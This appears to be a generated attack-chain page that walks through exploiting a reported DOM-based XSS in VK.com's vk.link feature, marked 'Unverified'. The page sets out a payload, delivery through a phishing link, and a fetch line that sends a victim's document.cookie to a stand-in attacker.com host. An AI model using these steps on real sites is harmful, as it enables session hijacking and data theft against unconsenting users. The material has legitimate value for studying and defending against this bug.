

# DOM-based XSS in VK.com vk.link Feature for Script Execution

Multi-stage attack chain demonstrating exploitation of a DOM-based XSS vulnerability in VK.com's vk.link feature, reported on HackerOne (Report #1025125). The issue stems from unsafe handling of user input in client-side JavaScript, enabling arbitrary script execution in the victim's browser. This could lead to session hijacking or data theft, though rated low severity due to limited scope.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools
- URL Encoder/Decoder (e.g., built-in JS console)

### Target Environment

- Web platform
- VK.com service
- JavaScript-enabled browser

### Initial Access Requirements

- Public access to VK.com
- Ability to craft and share links (no credentials needed for testing)
- Victim interaction required (e.g., clicking malicious link)

## Detailed Attack Procedures

### Step 1: Identify DOM-XSS Vulnerability in vk.link
procedure: [[procedures/Identify-DOM-XSS-Vulnerability-in-vk-link]]

**Objective**: Analyze the vk.link feature to confirm unsafe input handling in client-side JavaScript, identifying sink points for DOM manipulation.

**Instructions**: Navigate to VK.com and access the vk.link shortening service. Use browser developer tools to inspect how URL parameters are processed in JS. Test with benign inputs like ?param= appended to a vk.link URL to observe if it executes without sanitization.

**Expected Output**: Alert box or console log confirming script execution in the DOM.

**Success Indicators**:
- Script executes without server-side filtering
- DOM sink (e.g., document.write or innerHTML) processes input directly

### Step 2: Craft and Deliver Malicious Payload
procedure: [[procedures/Craft-and-Deliver-Malicious-Payload]]

**Objective**: Create a payload that evades basic filters and deliver it via a shortened vk.link URL to the victim.

**Instructions**: Encode a payload such as javascript:alert(document.cookie) to bypass URL restrictions. Generate a vk.link with the malicious parameter, e.g., https://vk.link/?redirect=<encoded_payload>. Share the link via social engineering (e.g., phishing email or message).

**Expected Output**: Victim receives and clicks the link, triggering payload processing.

**Success Indicators**:
- Link generates without errors
- Payload decodes correctly in browser

### Step 3: Execute Script and Exfiltrate Data
procedure: [[procedures/Execute-Script-and-Exfiltrate-Data]]

**Objective**: Upon execution, steal session data or perform actions in the victim's context.

**Instructions**: In the payload, use JS to access document.cookie or localStorage, then exfiltrate via fetch to an attacker-controlled server, e.g., fetch('https://attacker.com/steal?data='+encodeURIComponent(document.cookie)). Monitor the server for received data.

**Expected Output**: Attacker server logs incoming victim data.

**Success Indicators**:
- Script runs in victim browser context
- Sensitive data (e.g., session tokens) transmitted to attacker

## Attack Chain Summary

### Key Achievements

1. Confirmed DOM-based XSS in vk.link via input testing
2. Delivered executable payload through URL shortening
3. Achieved arbitrary JS execution for potential session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
